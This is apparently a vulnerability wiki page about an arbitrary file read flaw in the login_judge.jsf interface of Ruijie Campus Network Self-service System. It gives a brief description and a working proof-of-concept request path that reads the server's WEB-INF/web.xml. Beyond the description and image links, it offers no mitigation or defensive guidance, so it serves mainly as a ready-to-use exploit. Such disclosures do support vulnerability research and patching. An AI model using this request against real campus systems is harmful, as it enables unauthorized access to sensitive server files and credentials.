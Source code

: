 # Ruijie Campus Network Self-service System login_judge.jsf Arbitrary file reading vulnerability

## Vulnerability Description

Ruijie Campus Network Self-service System login_judge.jsf interface has arbitrary file reading vulnerability, and attackers can obtain sensitive files in the server through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Rujie Campus Network Self-service System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697855354969-1aec8552-b2c0-48f9-aa71-ffaea1493027.png) Verify POC

```php
/selfservice/selfservice/module/scgroup/web/login_judge.jsf?view=./WEB-INF/web.xml%3F
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697855400526-0287f033-ce41-4282-93c7-27977519d5bf.png)